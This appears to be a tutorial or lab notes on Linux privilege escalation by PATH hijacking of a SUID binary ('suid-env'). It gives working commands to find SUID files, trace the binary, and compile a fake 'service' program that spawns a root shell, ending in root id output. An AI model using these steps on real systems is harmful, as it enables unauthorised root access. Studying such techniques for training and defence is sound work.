 FINDING VULNERABLE PROGRAMS

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

Running strings against a file:
```bash
strings /path/to/file
```

Running strace against a command:

```bash
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running e ltrace against a command:

```bash
ltrace <command>
```

1. Find SUID/SGID files on the target:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash
strings /usr/local/bin/suid-env
```

/lib64/ld-linux-x86-64.so.2
service apache2 start

The file could be trying to run the service program without a full path.

3. We can verify this with strace:

```bash
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
```

[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

4. Optionally, we can also verify with ltrace:

```bash
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Create a file service.c with the following contents:

==service.c==

---
```bash

int main() {
 setuid(0);

 system("/bin/bash -p");
}
```
---

6. Compile service.c into a file called service:

```bash
gcc -o service service.c
```

7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root) ...

